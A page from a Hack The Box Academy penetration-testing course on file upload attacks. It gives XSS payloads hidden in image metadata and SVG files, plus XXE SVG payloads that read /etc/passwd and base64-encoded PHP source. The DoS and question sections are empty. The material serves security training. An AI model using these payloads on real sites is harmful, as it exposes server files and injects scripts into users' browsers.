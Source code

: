 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/136/section/1291
// Platform Version: V1
// Module ID: 136
// Module Name: File Upload Attacks
// Module Difficulty: Medium
// Section ID: 1291
// Section Title: Limited File Uploads
// Page Title: Hack The Box - Academy
// Page Number: 8
-->

# Limited File Uploads

**Module Name:** File Upload Attacks **Page Number:** 8

#### 

#### FILE UPLOAD ATTACKS

# Limited File Uploads

## XSS

``` shell-session
[!bash!]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
[!bash!]$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

## XXE

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

## DoS

# 

# 

#### Questions

####